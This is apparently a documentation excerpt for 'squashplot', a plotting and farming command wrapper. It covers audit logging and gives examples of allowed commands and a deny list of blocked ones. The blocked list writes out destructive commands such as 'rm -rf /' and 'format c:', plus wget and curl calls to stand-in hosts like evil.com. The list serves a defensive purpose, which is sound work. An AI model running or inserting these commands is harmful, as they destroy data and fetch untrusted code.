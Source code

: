 ### **Logging & Auditing**
- ✅ **All Commands Logged**: Complete audit trail
- ✅ **Dangerous Attempts**: Security event logging
- ✅ **Validation Failures**: Error logging
- ✅ **Audit Trail**: Comprehensive logging

## 🎯 **Usage Examples**

### **Safe Commands (✅ Allowed)**
```bash
# Dashboard operations
squashplot --help
squashplot dashboard --status
squashplot system --health

# Plotting operations
squashplot plot --create
squashplot plot --compress
squashplot compress --algorithm lz4

# Farming operations
squashplot farm --start
squashplot farm --status
squashplot harvest --start

# Monitoring operations
squashplot monitor --cpu
squashplot health --check
squashplot alerts --list
```

### **Blocked Commands (❌ Denied)**
```bash
# System commands
rm -rf /
sudo rm -rf /
chmod 777 /
format c:

# Network commands
wget http://malicious.com/script.sh
curl http://evil.com/data
ssh user@remote-server

# Shell commands
bash -c "rm -rf /"
python -c "import os; os.system('rm -rf /')"
cmd /c "del /f /s /q C:\\"
```
